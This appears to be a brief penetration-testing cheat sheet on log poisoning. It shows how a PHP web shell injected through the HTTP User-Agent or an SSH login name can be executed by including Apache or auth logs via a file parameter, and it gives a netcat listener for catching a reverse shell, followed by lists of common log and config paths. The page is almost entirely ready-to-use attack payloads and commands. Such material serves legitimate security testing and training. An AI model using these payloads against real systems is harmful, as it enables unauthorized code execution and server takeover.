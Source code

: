 ```yaml
---
title: "Log Poisoning"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```


## LOGS
* GET /browse.php?file=/var/log/httpd-access.log&cmd=revshell
* User Agent: Mozilla/5.0<?php system($_GET['cmd']); ?> Gecko ...
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## SSH
* Try login ssh like this ssh '<?php system($_GET['cmd']); ?>'@10.10.10.10
* GET /browser.php?file=/var/log/auth.log&cmd=revshell
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## COMMON LOG FILE LOCATION

### Ubuntu, Debian
```
/var/log/apache2/error.log
/var/log/apache2/access.log
```
### Red Hat, CentOS, Fedora, OEL, RHEL
```
/var/log/httpd/error_log
/var/log/httpd/access_log
```
### FreeBSD
```
/var/log/httpd-error.log
/var/log/httpd-access.log
```
### Ubuntu
```
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
```
### FreeBSD
```
/usr/local/etc/apache2/httpd.conf
/etc/apache2/sites-enabled/000-default.conf
/proc/self/environ
/proc/self/environ
```